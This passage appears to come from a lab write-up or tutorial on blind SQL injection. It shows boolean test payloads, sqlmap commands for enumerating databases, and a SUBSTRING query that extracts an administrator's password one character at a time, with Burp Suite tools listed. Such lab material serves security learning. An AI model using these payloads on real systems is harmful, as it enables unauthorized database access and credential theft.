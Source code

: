 - Test payloads:
    
    ```sql
    ' AND 1='1
    ```
    
    and
    
    ```sql
    ' AND 1='2
    ```
    
- Analyze differences in responses using **Comparer**.

---

### **Step 5: Automate Testing with sqlmap**

1. **Save the Request**:
    - Save to a file (`req.txt`):
        
```bash
$ sqlmap -r req.txt --level 2 --dbs
```
        
2. **Adjust Parameters**:
    - Increase risk level if necessary:
        
```bash
$ sqlmap -r req.txt --level 2 --risk 3 --dbs --batch
```
        
3. **Verify URL Encoding**:
    - Check if manual testing requires encoding.

---

### **Step 6: Extract Password Manually**

- Use **SUBSTRING** for manual character-by-character extraction:
    
```sql
AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```
    

---

### **Tools Used**

---

### **Burp Suite**

- **Repeater**: For manual payload testing.
- **Comparer**: For identifying differences in response length or content.
- **Intruder**: For automating payload testing.

---
